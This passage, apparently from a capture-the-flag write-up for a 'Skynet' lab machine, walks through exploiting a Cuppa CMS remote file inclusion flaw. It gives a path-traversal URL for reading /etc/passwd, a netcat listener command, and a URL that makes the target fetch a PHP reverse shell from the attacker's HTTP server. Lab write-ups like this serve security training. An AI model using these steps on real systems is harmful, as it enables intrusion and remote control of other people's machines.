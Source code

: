 At this point, we have access to a hidden subdirectory containing a Cuppa login form. We don't have much to go on, but a quick searchsploit search for Cuppa shows the existence of a [remote file inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion) exploit.

<center>

![7625f4004a5627aa9cdd25797e853595.png](/Skynet/_resources/7625f4004a5627aa9cdd25797e853595.png)

</center>

We'll use the exploit from [exploit-db](https://www.exploit-db.com/exploits/25971). To use it, we simply append `/alerts/alertConfigField.php?urlConfig=<path to file>` to the current url (where we found the login page). For instance, we can view the `/etc/passwd` file by navigating to `/alerts/alertConfigField.php?urlConfig=/Skynet//Skynet//Skynet//Skynet/../etc/passwd`. However, what we would like to do is set up a reverse shell using this method.

Set up a netcat lister with `rlwrap nc -lvnp 9999`. Download and modify [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), host it on an http server with `python3 -m http.server,` and use the above exploit to navigate to `/alerts/alertConfigField.php?urlConfig=http://10.6.30.43:8000/php-reverse-shell.php`. After a short while, the target machine completes the request, download the reverse shell php script, and we obtain a reverse shell.

<center>

![c805141dd6b0c16cf4845b1bb05e7171.png](/Skynet/_resources/c805141dd6b0c16cf4845b1bb05e7171.png)

</center>